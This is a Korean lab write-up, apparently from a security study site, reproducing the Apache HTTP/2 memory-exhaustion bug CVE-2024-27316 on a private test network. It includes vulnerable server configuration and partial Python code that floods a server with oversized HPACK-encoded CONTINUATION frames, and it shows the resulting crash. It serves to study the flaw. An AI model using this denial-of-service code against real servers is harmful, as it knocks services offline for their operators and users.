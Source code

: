 ```yaml
---
layout: default
title: cve-2024-27316
category: "Apache"
nav_order: 1
parent: cve
---
```


# CVE-2024-27316
{: .no_toc }

Apache 서버 메모리 고갈 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 }
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 }

1. TOC
{:toc}

--- 

## 취약점 요약
HTTP/2 프로토콜에서 사용자가 제한을 초과하는 헤더를 지속적으로 전송할 때 nghttp2 라이브러리가 이를 임시로 메모리에 버퍼링하여 메모리 고갈을 초래할 수 있는 취약점

## 취약 대상
Apache HTTP Server 2.4.17 ~ 2.4.58 버전

## 공격 원리
- Apache Server에서 일정 크기를 초과하는 헤더에 대해 HTTP 413 응답을 생성 
- 초과된 헤더는 HPACK으로 압축된 후 nghttp2 라이브러리 내부의 메모리 버퍼에 임시로 저장
- 저장된 헤더는 다음 패킷이 처리될 때까지 유지
- 공격자는 이 취약점을 악용하여 서버에 지속적으로 초과된 길이의 HTTP/2 헤더를 전송 
- 서버는 메모리 소진으로 인해 서비스 중단 
![](../../assets/images/cve-2024-27316/attack.png)

---

## 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1)

## 환경 구축
Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
sudo apt install apache2=2.4.52*
sudo apt install libnghttp2-dev

sudo a2enmod ssl
sudo a2enmod http2
sudo a2ensite default-ssl
sudo ufw allow 80/tcp
sudo ufw allow 8080/tcp
sudo ufw allow 443/tcp

sudo systemctl restart apache2

sudo vi /etc/apache2/sites-available/default-ssl.conf

## default.ssl 설정 - [HTTP2, HTTP 1.1 프로토콜 사용]
<IfModule mod_ssl.c>
    <VirtualHost _default_:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        SSLEngine on
        SSLCertificateFile /etc/ssl/certs/apache-selfsigned.crt
        SSLCertificateKeyFile /etc/ssl/private/apache-selfsigned.key

        <FilesMatch "\.(cgi|shtml|phtml|php)$">
            SSLOptions +StdEnvVars
        </FilesMatch>
        <Directory /usr/lib/cgi-bin>
            SSLOptions +StdEnvVars
        </Directory>

        Protocols h2 http/1.1
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
</IfModule>

sudo systemctl restart apache2

sudo vi /etc/apache2/apache2.conf

## apache2.conf 설정 - 취약점 설정[requests 헤더 사이즈에 대한 limit를 늘림]
LimitRequestFieldSize 16384
LimitRequestFields 1000
```

<br>구현 된 홈페이지 (192.168.56.1:443)
![](../../assets/images/cve-2024-27316/homepage.PNG)

## 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing

### import 추가
{: .no_toc }

주요 함수 설명

```py
from hpack import Encoder
import threading
from hyperframe.frame import HeadersFrame, ContinuationFrame, SettingsFrame, WindowUpdateFrame
import socket
import ssl
from multiprocessing import Process, current_process
```

### hpack을 사용하여 header 크기 압축 
{: .no_toc }

```py
def hpack_header(i):
    encoder = Encoder()
    name = f'ssssssssssssssssssssshhhhhhhhhhhhhhhhhhhhhhhwwwwwwwwwwwwwwwwwshwshwssssssssshhhhhhhhhhhwwwwwwwwwwww{i}'
    value = f'03310331033198989803319898033198980331998980331033103310331989898033198980331989803319989803319898{i}'
    headers = [(name, value)]
    encoded_headers = encoder.encode(headers)
    return encoded_headers
```
<br>

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

## Apache 서버 DoS 공격 전후 시스템 상태 분석
- Apache2 시스템 상태 모니터링
```bash
htop -p $(pgrep apache2 | tr '\n' ',')
```

- DoS 공격 실행 전, CPU, 메모리 사용량이 안정적으로 유지 (평균 : 13.200 MB)
![](../../assets/images/cve-2024-27316/Dos-before.png)

- 지속적인 공격이나 높은 부하로 인해 서버의 자원이 고갈되면 프로세스가 비정상적으로 종료
![](../../assets/images/cve-2024-27316/result.png)

---
[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-27316
[Apache]: https://httpd.apache.org/security/vulnerabilities_24.html

[nvd api Docs]: https://nvd.nist.gov/developers/vulnerabilities
